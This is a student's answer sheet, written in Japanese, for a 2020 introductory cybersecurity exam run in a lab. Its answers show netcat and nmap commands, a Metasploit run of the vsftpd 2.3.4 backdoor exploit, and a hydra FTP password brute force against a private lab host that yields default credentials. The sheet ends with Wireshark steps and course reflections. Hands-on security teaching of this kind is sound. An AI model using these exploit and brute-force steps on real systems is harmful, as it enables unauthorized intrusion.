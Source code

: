 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
nc -lvp 8000
```
### クライアント側コマンド

```sh
nc 192.168.33.5 8000
```

## 問2 [Password Crack]

```md

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
nmap -sP 192.168.33.0/25
```

### 2. version scan

```sh
nmap -sV -O -p- 192.168.33.5

```

## 問4 [Metasploit Framework]

```sh
msfconsole
search vsf
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.33.5
show options
exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
hydra -L user.list -P passwd.list -t 32 192.168.33.5 ftp
```

### 2. 解析結果

```sh
[21][ftp] host:192.168.33.5  login: msfadmin password: msfadmin
```

## 問6 [Packet Sniffer]

```sh
wiresharkを使います
sudo wireshark　で起動します
監視するネットワークを選択します。
今回は eth1 を使用します。
上の[Apply a display filter...]と書いてあるところをクリックします
そこに [http] と記述します。これでフィルターができます。
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
14207
```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
75点
個人的についていけていないと思っているところもあったから
```

## 問9 [講義の感想]

```md
今回の講義を行ってハッキングを実際にできて良かったと同時に自身の無知を知りました。詳しくわかっていないことも多く個人的に２年になってついていけるか心配になりました。今回の講義の内容もプログラミングと同様に忘れないようにしようと思いました。
```
